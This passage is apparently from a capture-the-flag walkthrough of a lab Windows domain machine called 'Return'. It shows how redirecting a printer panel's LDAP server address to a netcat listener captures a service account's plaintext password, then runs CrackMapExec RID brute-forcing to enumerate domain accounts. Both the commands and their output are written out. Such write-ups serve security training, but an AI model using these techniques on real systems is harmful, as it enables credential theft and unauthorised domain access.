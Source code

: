 The password is hashed out but we have the ability to change the server address. [This](https://www.ceos3c.com/security/obtaining-domain-credentials-printer-netcat) article shows how we can capture the password by pointing the server address to a netcat listener on Kali.

 We just change the server address from printer.return.local to our Kali tun0 IP, when we click update we see the creds have been captured by netcat:

```sh
┌──(root💀kali)-[~/htb/return]
└─# nc -nlvp 389listening on [any] 389 ...
connect to [10.10.15.39] from (UNKNOWN) [10.10.11.108] 60718
0*`%return\svc-printer
                       1edFg43012!!
```

## CrackMapExec

Now we have credentials we can go back to CrackMapExec and gather more information:

```sh
──(root💀kali)-[~/htb/return]
└─# crackmapexec smb printer.return.local -u "svc-printer" -p "1edFg43012\!\!" --rid-brute
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Brute forcing RIDs
SMB         10.10.11.108    445    PRINTER          498: RETURN\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          500: RETURN\Administrator (SidTypeUser)
SMB         10.10.11.108    445    PRINTER          501: RETURN\Guest (SidTypeUser)
SMB         10.10.11.108    445    PRINTER          502: RETURN\krbtgt (SidTypeUser)
SMB         10.10.11.108    445    PRINTER          512: RETURN\Domain Admins (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          513: RETURN\Domain Users (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          514: RETURN\Domain Guests (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          515: RETURN\Domain Computers (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          516: RETURN\Domain Controllers (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          517: RETURN\Cert Publishers (SidTypeAlias)
SMB         10.10.11.108    445    PRINTER          518: RETURN\Schema Admins (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          519: RETURN\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          520: RETURN\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          521: RETURN\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          522: RETURN\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          525: RETURN\Protected Users (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          526: RETURN\Key Admins (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          527: RETURN\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          553: RETURN\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.108    445    PRINTER          571: RETURN\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.108    445    PRINTER          572: RETURN\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.108    445    PRINTER          1000: RETURN\PRINTER$ (SidTypeUser)
SMB         10.10.11.108    445    PRINTER          1101: RETURN\DnsAdmins (SidTypeAlias)
SMB         10.10.11.108    445    PRINTER          1102: RETURN\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.108    445    PRINTER          1103: RETURN\svc-printer (SidTypeUser)
```
